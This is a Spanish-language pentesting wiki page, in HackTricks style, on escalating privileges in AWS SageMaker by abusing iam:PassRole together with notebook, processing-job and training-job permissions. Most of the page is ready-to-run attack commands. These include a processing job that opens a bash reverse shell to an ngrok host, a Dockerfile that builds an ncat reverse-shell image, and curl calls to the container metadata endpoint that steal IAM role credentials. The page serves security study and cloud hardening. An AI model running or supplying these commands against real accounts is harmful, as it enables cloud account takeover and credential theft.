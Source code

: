 # AWS - Sagemaker Privesc

## AWS - Sagemaker Privesc

{{#include ../../../banners/hacktricks-training.md}}

### `iam:PassRole`, `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Comienza a crear un cuaderno con el rol de IAM para acceder adjunto a él:
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
La respuesta debe contener un campo `NotebookInstanceArn`, que contendrá el ARN de la nueva instancia de notebook creada. Luego podemos usar la API `create-presigned-notebook-instance-url` para generar una URL que podemos usar para acceder a la instancia de notebook una vez que esté lista:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Navega a la URL con el navegador y haz clic en \`Open JupyterLab\` en la parte superior derecha, luego desplázate hacia abajo a la pestaña “Launcher” y en la sección “Other”, haz clic en el botón “Terminal”.

Ahora es posible acceder a las credenciales de metadatos del rol IAM.

**Impacto Potencial:** Privesc al rol de servicio de sagemaker especificado.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

Si hay **notebooks de Jupyter ya en ejecución** en él y puedes listarlos con `sagemaker:ListNotebookInstances` (o descubrirlos de cualquier otra manera). Puedes **generar una URL para ellos, acceder a ellos y robar las credenciales como se indicó en la técnica anterior**.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**Impacto Potencial:** Privesc al rol de servicio de sagemaker adjunto.

### `sagemaker:CreateProcessingJob,iam:PassRole`

Un atacante con esos permisos puede hacer que **sagemaker ejecute un processingjob** con un rol de sagemaker adjunto. El atacante puede indicar la definición del contenedor que se ejecutará en una **instancia de cuenta ECS gestionada por AWS**, y **robar las credenciales del rol IAM adjunto**.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Impacto Potencial:** Privesc al rol de servicio de sagemaker especificado.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

Un atacante con esos permisos podrá crear un trabajo de entrenamiento, **ejecutando un contenedor arbitrario** en él con un **rol adjunto**. Por lo tanto, el ataque podrá robar las credenciales del rol.

> [!WARNING]
> Este escenario es más difícil de explotar que el anterior porque necesitas generar una imagen de Docker que enviará el rev shell o las credenciales directamente al atacante (no puedes indicar un comando de inicio en la configuración del trabajo de entrenamiento).
>
> ```bash
> # Crear imagen de docker
> mkdir /tmp/rev
> ## Ten en cuenta que el trabajo de entrenamiento va a llamar a un ejecutable llamado "train"
> ## Por eso estoy poniendo el rev shell en /bin/train
> ## Establece los valores de <YOUR-IP-OR-DOMAIN> y <YOUR-PORT>
> cat > /tmp/rev/Dockerfile <<EOF
> FROM ubuntu
> RUN apt update && apt install -y ncat curl
> RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
> RUN chmod +x /bin/train
> CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
> EOF
>
> cd /tmp/rev
> sudo docker build . -t reverseshell
>
> # Sube a ECR
> sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
> sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
> sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
> ```
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Impacto Potencial:** Privesc al rol de servicio de sagemaker especificado.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

Un atacante con esos permisos podrá (potencialmente) crear un **trabajo de entrenamiento de hiperparámetros**, **ejecutando un contenedor arbitrario** en él con un **rol adjunto**.\
_No he explotado debido a la falta de tiempo, pero parece similar a las explotaciones anteriores, siéntete libre de enviar un PR con los detalles de la explotación._

## Referencias

- [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

{{#include ../../../banners/hacktricks-training.md}}

